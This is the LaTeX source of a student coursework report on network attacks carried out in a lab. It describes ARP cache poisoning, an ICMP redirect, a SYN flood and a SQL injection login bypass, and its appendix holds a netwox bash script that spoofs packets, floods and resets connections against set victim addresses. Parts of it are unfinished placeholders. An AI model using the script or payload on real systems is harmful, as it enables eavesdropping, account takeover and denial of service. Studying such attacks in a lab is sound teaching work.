\documentclass[12pt, a4paper, pdflatex]{article}

\usepackage[top=1in, bottom=1in, left=1in, right=1in]{geometry}
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}
\usepackage{lipsum}
\usepackage[labelfont=bf]{caption}
\usepackage[]{algorithm2e}
\usepackage{listings}

\renewcommand{\thesubsubsection}{\thesubsection.\alph{subsubsection})} %subsubsections with letters

\usepackage{amsmath}
\usepackage{amsfonts}    % fancy maths font
\usepackage{mathrsfs}    % fancy maths font
\usepackage{dsfont}      % indocator finction
\usepackage{hyperref}
\usepackage[page, toc]{appendix}
\usepackage[usenames,dvipsnames]{color}
\usepackage{graphicx}

% \newcommand{\ts}{\textsuperscript}
% \usepackage{url}

\begin{document}
% \pagenumbering{gobble}% Remove page numbers

\begin{center}
\vspace*{\fill}
% \begin{vplace}[1]
  \Huge
 \texttt{\textbf{PART B}}
 % \end{vplace}

\end{center}


\begin{center}
    \begin{large}
    {\HRule \\[0.2cm]}
    \textsc{Attacks on TCP/IP Protocols}
    {\HRule \\[0.3cm]}
    \end{large}

    \begin{minipage}{ 0.49\textwidth }
        \begin{flushleft}
            Kacper \textbf{Sokol}---\texttt{ks1591}---4GGK1\\
            Maciej \textbf{Kumorek}---\texttt{mk0934}---4G403\\
        \end{flushleft}
    \end{minipage}
    \begin{minipage}{ 0.49\textwidth }
        \begin{flushright}
            {COMSM1500 $|$ Systems Security\\
            Coursework: Part B---\today\\[0.3cm]}
        \end{flushright}
    \end{minipage}
\end{center}
\vspace*{\fill}

\thispagestyle{empty}
\newpage
\setcounter{page}{1}

\section{Introduction}
In this paper we present exploiting vulnerabilities in: \texttt{C} string formatting, \texttt{chroot} command/system call, and \texttt{C} buffer overflow.\\
In each subtask we explain the cause of a vulnerability, show how to perform a potential attack and we reflect on created risk. Methods used to exploit these weaknesses are described in depth; algorithms, code, input, and output are included for clarity.\\
\textbf{Table~\ref{tab:SoC}} shows contribution to this study per author.

\begin{center}
  \begin{table}[h]
    \begin{tabular}{ l | p{8.5cm} | c }
      Group member ID & Contribution outline & Contribution \\
      \hline
      ks1591 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item creating report template,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
      mk0934 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item setting up git repository for coursework files,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
    \end{tabular}
    \caption{Statement of contribution.\label{tab:SoC}}
  \end{table}
\end{center}

\newpage

\section{TCP attacks}

\subsection{ARP cache poisoning}\label{arp}

Our victim MAC address was "08:00:27:A6:EB:87" while its IP address was 10.0.2.4. The gate-away is set at the address 10.0.2.1 

We wanted to make the victim think that another gateway has the MAC of the attacker. The original MAC of the gateway was "52:54:00:12:35:00", while attacker MAC address was "08:00:27:ee:0d:0f". We could see that by running arp -a command.\\


\includegraphics{gfx/arp1}\\


Using netwox we could spoof a packet that updates ARP cache on the victim's machine and replace the entry with the MAC of the attacker at IP address 10.0.2.6:\\


\includegraphics{gfx/arp-attack}\\

Here we used netwox tool using the script we created that is shown in the appendix ~\ref{script1} for spoofing ARP packages, we tell the tool the original MAC and new MAC addresses, as well as IP addresses of the victim and the IP address of which entry in the ARP cache we want to modify.

After spoofing the packet, running arp -a tool on the victim's machine results in the following output:\\


\includegraphics{gfx/arp-after-attack}

As we can see, the attacker managed to "convince" the victim that his hardware address corresponds to a 3rd party IP address. Now we can observe packets send from the victim to the observer being received by the attacker in the Wireshark output:\\


\includegraphics[width=450px]{gfx/arp-shark}


\subsection{ICMP Redirect Attack}

ICMP messages are used to send error or redirection information in the IP protocol. The redirect message tells the network to use alternative routing. An attacker can spoof a ICMP redirect request in order to perform for example eavesdropping by driving the network traffic through the attacker's machine.

In this attack we want to listen to packet exchange between a victim and a third party (observer). We want to be able to send ICMP redirect packet spoofed in such a way that we convince everyone in the network that the attacker is the new gateway.

In order for the attack to succeed, we need to repeat the ARP attack (see section ~\ref{arp}).

Again using our script shown in the appendix~\ref{script1} we use \textbf{netwox} to spoof the ICMP message.\\


\includegraphics{gfx/imcp-ping}\\

Now the entire network should believe that the attacker is the new gate-away. If we try to ping the victim (at the address 10.0.2.4) on the observer machine (at the address 10.0.2.5), we see that the communication works:\\


\includegraphics{gfx/imcp-netwox}\\

However, the attack can now watch the communication and data being sent using \textbf{Wireshark}.\\


\includegraphics[width=450px]{gfx/imcp-shark}\\

Such a setup can for example lead to captuing sensitive data that is unencrypted or lead to recognizing known ciphertext-plaintext pairs that can be used for various attacks on encryption algorithms.




\subsection{SYN Flooding Attack}

In this attack our task was to cause a Denial of Service using SYN flood attack. The SYN or synchronize request is send in a typical TCP protocol exchange in order to establish a connection. A client sends a SYN packet, receiving SYN-ACK acknowledgment from the server and confirms that the synchronization acknowledgment was recived by responding to the server with a ACK packet.

In the attack, an attacker sends multiple SYN packets without responding to SYN-ACK. This is done by randomizing the IP address in the original SYN request, so that the response goes to nobody as a consequence. This causes the server to keep many \'half-open\'' connections.


\section{XSS attacks}

\subsection{Writing an XSS Worm}

After refreshing multiple times, the response contains an error message \"You cannot make another post so soon after your last; please try again in a short while.\" which is a mechanism in phpBB from preventing flooding message boards.


\section{SQL injection attack}

\subsection{Exploiting the vulnerability in login.php}

We were able to login to Alice's account without knowing her password by inputing the following
text into login input box: \texttt{alice' or \'1\'='1}. On the server side when this is applied
to PHP code to form the SQL query, the query is changed into:

\lstset{
  captionpos=b,
  frame=single,
  language=PHP,
  breaklines=true,
  label=sql1
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level,
user_login_tries, user_last_login_try
FROM USERS_TABLE
WHERE username = ’alice’ or ’1’ = ’ AND user_password = ’md5($password)’;
\end{lstlisting}



\section{Conclusions}

Lorem ipsum

\vfill
\bibliographystyle{plain}
\bibliography{ref}

\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'


;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}


\end{appendices}

\end{document}
